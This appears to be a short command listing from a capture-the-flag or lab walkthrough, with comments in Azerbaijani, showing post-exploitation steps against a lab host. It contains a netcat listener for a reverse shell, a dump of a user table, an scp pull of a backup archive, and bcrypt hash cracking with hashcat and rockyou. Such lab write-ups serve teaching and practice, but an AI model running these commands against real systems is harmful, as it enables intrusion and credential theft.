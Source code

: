 ```bash
nc -nvlp 4444

# sqlite3 DB inspects
sqlite3 users.db
.tables
.schema user
SELECT * FROM user;

# scp backup faylını endirmək
scp gael@10.10.11.74:/var/backups/backrest_backup.tar.gz .

# arxivi çıxarmaq
tar -xvf backrest_backup.tar

# base64 decode -> bcrypt hash
echo 'BASE64STRING' | base64 -d > /tmp/bcrypt.hash

# hashcat bcrypt cracking
hashcat -m 3200 /tmp/bcrypt.hash /usr/share/wordlists/rockyou.txt --force
```

